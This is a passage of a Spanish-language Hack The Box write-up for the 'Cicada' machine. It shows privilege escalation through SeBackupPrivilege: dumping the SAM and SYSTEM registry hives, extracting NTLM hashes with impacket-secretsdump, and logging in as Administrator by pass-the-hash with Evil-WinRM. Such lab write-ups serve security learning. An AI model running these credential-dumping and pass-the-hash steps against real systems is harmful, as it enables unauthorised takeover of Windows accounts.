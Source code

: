 Normalmente, SeBackupPrivilege se utiliza en programas de respaldo para poder acceder a archivos protegidos. Sin embargo, si se concede a un usuario no autorizado, puede explotarse para extraer información sensible y facilitar la escalada de privilegios.

Para obtener más detalles sobre cómo se puede explotar este privilegio, consultar el siguiente recurso: [Windows Local Privilege Escalation Cookbook - SeBackupPrivilege](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#exploitation).

* Copiar los archivos `sam hive` y `system hive` de `HKLM` a `C:\temp`.

```terminal
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system C:\temp\system.hive
The operation completed successfully.
```

* Descargo ambos archivos a mi máquina.

```terminal
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download C:\temp\system.hive
Info: Downloading C:\temp\system.hive to system.hive
Info: Download successful!

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download C:\temp\sam.hive
Info: Downloading C:\temp\sam.hive to sam.hive
Info: Download successful!
```

* Uso la herramienta impacket-secretsdump para extraer los hashes NTLM.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![](assets/img/htb-writeup-cicada/cicada6_2.png)

En la salida, encuentro el hash NTLM del usuario `Administrator`:`2b87e7c93a3e8a0ea4a581937016f341`

Con este hash, puedo iniciar sesión directamente en la cuenta de `Administrator` utilizando Evil-WinRM.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```
```terminal
*Evil-WinRM* PS C:\Users\Administrator> type Desktop\root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/627" target="_blank">Cicada Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }
